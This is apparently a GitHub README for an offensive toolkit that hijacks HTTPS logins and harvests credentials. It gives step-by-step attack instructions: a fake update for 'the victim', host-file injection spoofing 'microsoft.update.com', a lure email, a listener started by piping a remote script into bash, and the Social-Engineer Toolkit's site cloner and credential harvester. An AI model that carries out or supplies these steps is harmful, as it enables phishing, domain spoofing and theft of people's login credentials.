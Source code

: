 # WARNING: This is a development project and is not READY for USING ;)
- BR
------------------------------------------------------------------------------------------
# SSTC-HTTPS-hijack-login-credentials 
- by nu11secur1ty

![](https://github.com/nu11secur1ty/SSTC-HTTPS-hijack-login-credentials/blob/master/logo/https_image-620x499.jpg)


- Installing requirements and tools:

-  [git](https://github.com/trustedsec/social-engineer-toolkit)

-  [curl](https://curl.haxx.se/)

-  [apache2](https://httpd.apache.org/docs/2.4/howto/public_html.html)


------------------------------------------------------------

# Exploit steps:
- PWN OS HTTPS hijacking

1. - Preparing a fake update for the victim:
```bash
git clone https://github.com/nu11secur1ty/SSTC-HTTPS-hijack-login-credentials.git
cd SSTC-HTTPS-hijack-login-credentials/Attacker/sh1mazu_https_fake
bash sh1m@zu.sh
[1]
     enter
```

2. - Preparing your hosts-file for exploiting of the victim:
     
     // fakesite.login.com

```bash
cd SSTC-HTTPS-hijack-login-credentials/Attacker/hosts_fake_inject

bash fakehost.sh
     
     # NOTE: You should set up your Network setup to STATIC!
     
     # For example:
     # with IP 10.10.10.100 or 192.168.1.100
     # Or it'd depend from the local network in leyar2
     # WARNING: The host_injector is working only with these IP's from A class of networks
     //10.10.10.100// and //192.168.1.100//
     
     type the attacker IP 10.10.10.100 # or 192.168.1.100
     
     type the fake domain microsoft.update.com
     
     enter
```
3. - Sending an email or an extra lure on your victim.
```
Тhat's the hardest part ;)
I will give you a decision soon, but until then you should create your own!
There is no easy things in this world. ;)
```
4. - Listening for victim visiting

```bash
     curl -s https://raw.githubusercontent.com/nu11secur1ty/SSTC-HTTPS-hijack-login-credentials/master/Attacker/Hijack-HTTPS-Listener/kazkuvgluvutu.sh | bash
```

5. - After exploiting the victim you should ***Stop Apache2***
```bash
systemct stop apache2.service
```
-------------------------------------------------------------

***SECOND PART***

1. - setoolkit cloning of real website
```bash
setoolkit
1) Social-Engineering Attacks
     set>1
     enter
2) Website Attack Vectors
     set>2
     enter
3) Credential Harvester Attack Method
     set:webattack>3
     enter
2) Site Cloner
     set:webattack>2
     enter
set:webattack> IP address for the POST back in Harvester/Tabnabbing [10.10.10.100]:_your_local_layer2_IP_
     enter
[-] Example: http://www.thisisafakesite.com
set:webattack> Enter the url to clone: _your_site_
     enter
     enter
```
2. - Sending a hijack email of the victim.
```bash

```

3. - Receiving the hits from browser of the victim





